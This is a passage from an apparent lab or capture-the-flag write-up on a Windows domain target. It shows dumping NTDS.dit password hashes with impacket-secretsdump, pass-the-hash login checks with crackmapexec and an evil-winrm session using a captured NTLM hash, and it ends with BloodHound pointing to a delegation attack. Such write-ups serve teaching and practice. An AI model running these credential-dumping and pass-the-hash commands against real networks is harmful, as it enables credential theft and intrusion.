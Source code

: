Reading about ntds.dit file I came across this [article](https://www.hackingarticles.in/credential-dumping-ntds-dit/) that shows how to dump the file to get hases:

I get  the ntds.dit file and SYSTEM file, located in /Password Audit/Registry

Using `impacket-secretsdump -ntds ntds.dit -system SYSTEM | tee secrets`  command I get the hashes

Easily parse the hashes with `cat secrets| cut -d ":" -f4 > hashes`

![a981f45e33d9a16aef0ee5a7e9c5474f.png](/assets/img/screenshots/Resourced/a981f45e33d9a16aef0ee5a7e9c5474f.png)

## WinRM connection

After that, I check if a connection though evilwinrm is possible with crtackmapexec (Pwn3d!)

crackmapexec winrm 192.168.191.175 -u users.txt -H hashes

![04f74bae0eb4f450e19efe9655fdb97c.png](/assets/img/screenshots/Resourced/04f74bae0eb4f450e19efe9655fdb97c.png)

evil-winrm -i 192.168.191.175 -u 'L.Livingstone' -H '19a3a7550ce8c505c2d46b5e39d6f808'7

# Lateral movement

## Bloodhound

After establishing the connection I check some possible Privesc vectors but is nor possible, at this point I use bloodhound.

After getting the zip and uploading to the application. In node info y click over "OutboundObject Control". This gives me a possible attack path,  performing a resource based constrained delegation attack.
